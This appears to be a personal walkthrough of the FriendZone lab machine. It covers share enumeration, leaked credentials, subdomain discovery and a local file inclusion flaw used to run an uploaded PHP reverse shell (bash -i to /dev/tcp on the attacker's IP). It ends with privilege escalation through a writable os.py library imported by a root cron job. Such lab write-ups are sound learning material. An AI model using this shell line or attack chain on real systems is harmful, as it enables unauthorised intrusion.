FTP we can access general and Development

We are able to download a creds file from the general share

admin:WORKWORKHhallelujah@#
I couldnt access the https site before but now that I have added friendzone.red to /etc/hosts I can

We get friendzone.red from nmap and looking at port 443

We find something weird under the JS directory the string changes with every refresh

Looking at the source code of index.html I was about 99% sure this was a rabbit hole.

Ran out of ideas so I ran ffuf looking for a subdomain and we actually found an uploads subdomain
https://uploads.friendzone.red/


Ran gobuster on the new page and found a files directory but I cant seem to locate the uploaded files
Found a note in the files directory https://uploads.friendzone.red/files/note

Very late but I finally learned how to properly do a zone transfer

New subdomains found, administrator1 and hr
On the admin page we can login using the creds we found. From here we see a site where we can include pictures for them to show up on the page.

If we use the image_id parameter we can include pictures from the images directory

I tried seeing if I could read files with this but couldnt get anything working. I tried the uploads directory as well but still nothing worked. I eventually tried reading the test.txt file that we put on the Development but still got nothing. I looked at the walkthrough from 0xdf and realized the pagename parameter automatically adds .php to the end. So if we did /uploads/upload it would autofill upload.php as we see in the bottom left of this image.

Using the adventure mode tips we can use this nmap script to leak smb share locations which shows us the full path to the development drive which we have write access to
nmap --script smb-enum-shares.nse 10.10.10.123
| \\10.10.10.123\Development:
| Type: STYPE_DISKTREE
| Comment: FriendZone Samba Server Files
| Users: 0
| Max Users: <unlimited>
| Path: C:\etc\Development
We upload a simple php shell named pwn.php and we can execute it with the page below
shell
cat pwn.php
<?phpexec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.24/9999 0>&1'");
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=../../../../../../etc/Development/pwn

We find creds for the friend user or mysql

for development process this is the mysql creds for user friend
db_user=friend
db_pass=Agpyu12!0.213$
db_name=FZ
friend:Agpyu12!0.213$
It was ssh

script in /opt/server_admin
#!/usr/bin/python
import os
to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"
print "[+] Trying to send email to %s"%to_address
#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''
#os.system(command)
# I need to edit the script later
# Sam ~ python developer
From linpeas we can see that os.py is writable, we can edit os.py and put in a reverse shell. I had to look at the walkthrough again as my shell wasnt working but I had everything right. The script is running every 2 minutes as root. I believe I wasnt waiting long enough for the script to execute.
